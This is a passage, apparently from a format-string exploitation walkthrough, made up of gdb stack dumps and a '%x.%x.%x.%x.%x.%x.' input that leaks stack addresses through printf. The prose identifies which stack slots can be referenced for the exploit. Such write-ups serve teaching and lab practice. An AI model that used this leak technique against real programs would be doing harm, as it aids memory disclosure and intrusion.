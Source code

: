 ```
0xffffd658:     0x00000005      0x00000008      0x00000007      0xf7fdc000
0xffffd668:     0x00000008      0x00000000      0x00000009      0x08048470
0xffffd678:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xffffd688:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
0xffffd698:     0x00000017      0x00000000      0x00000019      0xffffd6cb
0xffffd6a8:     0x0000001f      0xffffdfb0      0x0000000f      0xffffd6db
0xffffd6b8:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb)
```

Let's also find out what value will be the first stack address when printf is called.

```
(gdb) c
Continuing.
%x.%x.%x.%x.%x.%x.
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //804a01a.f7fc5c20.8048722.804a01a.804a368.804a008.                 /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
```

This location of these addresses in the stack tell us that only the following stack values can be used for our exploit. The first listed is the 3$ value that can be referenced by format specifiers.

```
0xffffd4e8:                                                     0x0804a368
0xffffd4f8:     0x0804a008      0x00000358      0xf7fc53c4      0xffffd520
0xffffd508:     0x00000000      0xf7e35a63      0x080486d0      0x00000000
0xffffd518:     0x00000000      0xf7e35a63      0x00000001      0xffffd5b4
0xffffd528:     0xffffd5bc      0xf7feac3a      0x00000001      0xffffd5b4
0xffffd538:     0xffffd554      0x08049988      0x08048288      0xf7fc5000
0xffffd548:     0x00000000      0x00000000      0x00000000      0x846f5c8a
0xffffd558:     0xbd71589a      0x00000000      0x00000000      0x00000000
0xffffd568:     0x00000001      0x08048470      0x00000000      0xf7ff0470
0xffffd578:     0xf7e35979      0xf7ffd000      0x00000001      0x08048470
0xffffd588:     0x00000000      0x08048491      0x080485da      0x00000001
0xffffd598:     0xffffd5b4      0x080486d0      0x08048740      0xf7feb0f0
0xffffd5a8:     0xffffd5ac      0x0000001c      0x00000001      0xffffd6e1
0xffffd5b8:     0x00000000      0xffffd729      0xffffd73c      0xffffd74c
0xffffd5c8:     0xffffd757      0xffffd780      0xffffd7a2      0xffffd7b5
0xffffd5d8:     0xffffd7c1      0xffffdd5a      0xffffdd66      0xffffde08
0xffffd5e8:     0xffffde1e      0xffffde23      0xffffde65      0xffffde8a
0xffffd5f8:     0xffffde9b      0xffffdee1      0xffffdeea      0xffffdefc
0xffffd608:     0xffffdf04      0xffffdf13      0xffffdf46      0xffffdf6a
0xffffd618:     0xffffdf89      0x00000000      0x00000020      0xf7fd9d60
0xffffd628:     0x00000021      0xf7fd9000      0x00000010      0xbfebfbff
0xffffd638:     0x00000006      0x00001000      0x00000011      0x00000064
0xffffd648:     0x00000003      0x08048034      0x00000004      0x00000020
0xffffd658:     0x00000005      0x00000008      0x00000007      0xf7fdc000
0xffffd668:     0x00000008      0x00000000      0x00000009      0x08048470
0xffffd678:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xffffd688:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
0xffffd698:     0x00000017      0x00000000      0x00000019      0xffffd6cb
```